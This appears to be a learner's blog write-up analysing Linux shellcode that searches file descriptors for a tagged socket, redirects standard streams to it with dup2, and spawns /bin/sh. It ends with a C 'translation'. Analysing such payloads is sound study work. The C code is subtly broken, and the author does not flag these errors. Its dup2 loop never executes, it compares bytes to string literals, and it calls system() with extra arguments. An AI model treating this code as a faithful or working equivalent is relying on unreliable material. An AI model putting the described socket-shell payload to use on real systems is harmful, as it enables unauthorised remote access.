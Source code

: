 This last block of disassembly looks similar to what I've written for the 1st and 2nd assignments. It simply calls the syscall `execve` in order to spawn a shell, in particular `/bin//sh`.

To recap what the shellcode does:

1. the shellcode calls `recv` in order to receive data from the file descriptor `0xa00` (2560) of the socket
2. the shellcode checks the first 4 bytes of the buffer storing the data received
    1. if they aren't equal to `0x68486a66`, then it **increases** the file descriptor (`0xa00` -> `0xa01` -> `0xa02` ...), until `0xffff`, after that it starts again from `0x0000`
    2. if they are equal, it continues execution
3. the syscall `dup2` is used for redirecting standard error, standard output, and standard input (in this specific order) towards the file descriptor of the socket
4. the shellcode uses the syscall `execve` to spawn the shell `/bin/sh`

It translates to the following `C` program, although with some minor differences:

```cpp
#include <sys/socket.h>

void main(int argc, char *argv[])
{
    unsigned short int fd = 2560;

    /*
      buffer containing data received from the socket
      in the previous shellcode, the data is stored on the stack
      so this is the 1st difference
    */
    char buffer[2560] = {0};

    while (1)
    {
        recv(fd, &buffer, 2560, MSG_DONTWAIT);

        /*
          check the first four bytes of the data received from the socket (if so)
          I don't know how to check the first 4 bytes without other functions
          so this is the 2nd difference
        */
        if (buffer[0] == "\x66" && buffer[1] == "\x6a" && buffer[2] == "\x48" && buffer[3] == "\x68")
        {
            break;
        } else
        {
            // increase the file descriptor if data wasn't received or
            //  the first 4 bytes aren't correct
            fd++;
        }
    }

    // redirect stderr, stdout, stdin
    for (int i = 2; i <= 0; i++)
    {
        dup2(fd, i);
    }

    /*
      spawn a shell, using system(), as I couldn't use execve
      so this is the 3rd difference
    */
    system("/bin//sh", "/bin//sh", 0);
}
```
